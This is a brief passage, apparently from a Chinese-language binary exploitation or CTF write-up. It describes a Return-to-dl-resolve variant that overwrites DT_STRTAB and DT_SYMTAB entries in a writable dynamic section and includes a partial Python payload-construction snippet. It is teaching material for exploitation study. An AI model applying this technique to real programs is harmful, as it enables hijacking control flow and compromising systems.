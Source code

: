 &#8195;此处漏洞点就不再详细论述，这里采用的是Return-to-dl-resolve的技术，不过这里不同于一般的构造。一般在寻址时都是base_addr+index，一般在伪造时都是通过伪造index，从而使其执行用户控制的缓冲区。<br>
&#8195;而这里由于动态表所在的区域是可写的，因此这里直接更改动态表的内容，也就是这里直接改base_addr，从而实现指向用户可控的缓冲区。<br>
&#8195;如下所示，首先获取动态表的基址，然后重新构造，第8项和第9项的内容，具体修改需要看程序的动态表分布。
```
dynamic_addr = 0x6006f8

    buf2_base = dynamic_addr + 8 * 0x10a
    buf2 = p64(5)  # DT_STRTAB
    buf2 += p64(buf_base + 0x20)  # fake strtab address
    buf2 += p64(6)  # DT_SYMTAB
    buf2 += p64(0x600f00)
```
